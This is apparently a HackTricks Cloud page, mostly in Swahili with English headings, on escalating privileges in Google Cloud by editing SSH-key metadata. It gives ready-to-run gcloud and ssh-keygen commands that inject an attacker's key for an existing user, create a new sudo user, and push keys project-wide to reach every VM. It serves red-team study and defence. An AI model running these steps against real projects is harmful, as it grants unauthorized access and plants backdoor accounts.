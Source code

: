 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Kubadilisha metadata kwenye mfano kunaweza kusababisha **hatari kubwa za usalama ikiwa mshambuliaji atapata ruhusa zinazohitajika**.

#### **Incorporation of SSH Keys into Custom Metadata**

Katika GCP, **mifumo ya Linux** mara nyingi inatekeleza skripti kutoka [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Sehemu muhimu ya hii ni [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), ambayo imeundwa ili **kuangalia mara kwa mara** kiunganishi cha metadata ya mfano kwa **sasisho la funguo za umma za SSH zilizoidhinishwa**.

Hivyo, ikiwa mshambuliaji anaweza kubadilisha metadata ya kawaida, anaweza kufanya daemon ipate funguo mpya za umma, ambazo zitawekwa na **kuunganishwa kwenye mfumo wa ndani**. Funguo hiyo itaongezwa kwenye faili ya `~/.ssh/authorized_keys` ya **mtumiaji aliye tayari au labda kuunda mtumiaji mpya mwenye ruhusa za `sudo`**, kulingana na muundo wa funguo. Na mshambuliaji ataweza kuathiri mwenyeji.

#### **Add SSH key to existing privileged user**

1. **Examine Existing SSH Keys on the Instance:**
*   Tekeleza amri ya kuelezea mfano na metadata yake ili kupata funguo za SSH zilizopo. Sehemu inayohusiana katika matokeo itakuwa chini ya `metadata`, hasa funguo ya `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Angalia muundo wa funguo za SSH: jina la mtumiaji linatangulia funguo, likitenganishwa na alama ya nukta.
2. **Prepare a Text File for SSH Key Metadata:**
* Hifadhi maelezo ya majina ya watumiaji na funguo zao za SSH katika faili la maandiko lililo na jina `meta.txt`. Hii ni muhimu ili kuhifadhi funguo zilizopo wakati wa kuongeza mpya.
3. **Generate a New SSH Key for the Target User (`alice` in this example):**
*   Tumia amri ya `ssh-keygen` kuzalisha funguo mpya ya SSH, kuhakikisha kuwa uwanja wa maoni (`-C`) unalingana na jina la mtumiaji wa lengo.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Ongeza funguo mpya ya umma kwenye `meta.txt`, ukifanana na muundo ulio katika metadata ya mfano.
4. **Update the Instance's SSH Key Metadata:**
*   Tumia metadata ya funguo za SSH iliyosasishwa kwenye mfano kwa kutumia amri ya `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Access the Instance Using the New SSH Key:**
*   Unganisha kwenye mfano kwa kutumia SSH na funguo mpya, ukipata shell katika muktadha wa mtumiaji wa lengo (`alice` katika mfano huu).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Create a new privileged user and add a SSH key**

Ikiwa hakuna mtumiaji wa kuvutia anapatikana, inawezekana kuunda mpya ambayo itapewa ruhusa za `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

Inawezekana kupanua ufikiaji wa SSH kwa Mashine nyingi za Kijijini (VMs) katika mazingira ya wingu kwa **kutumia funguo za SSH katika kiwango cha mradi**. Njia hii inaruhusu ufikiaji wa SSH kwa mfano wowote ndani ya mradi ambao haujazuia wazi wazi funguo za SSH za mradi. Hapa kuna mwongozo wa muhtasari:

1. **Tumia Funguo za SSH katika Kiwango cha Mradi:**
*   Tumia amri `gcloud compute project-info add-metadata` kuongeza funguo za SSH kutoka `meta.txt` kwenye metadata ya mradi. Kitendo hiki kinahakikisha kwamba funguo za SSH zinatambuliwa katika VMs zote ndani ya mradi, isipokuwa VM ina chaguo la "Block project-wide SSH keys" limewezeshwa.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH kwenye Mifano kwa Kutumia Funguo za Mradi:**
* Pamoja na funguo za SSH za mradi, unaweza SSH kwenye mfano wowote ndani ya mradi. Mifano ambayo haizuia funguo za mradi itakubali funguo za SSH, ikitoa ufikiaji.
* Njia moja ya moja ya SSH kwenye mfano ni kutumia amri `gcloud compute ssh [INSTANCE]`. Amri hii inatumia jina lako la mtumiaji wa sasa na funguo za SSH zilizowekwa katika kiwango cha mradi kujaribu ufikiaji.

## References

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
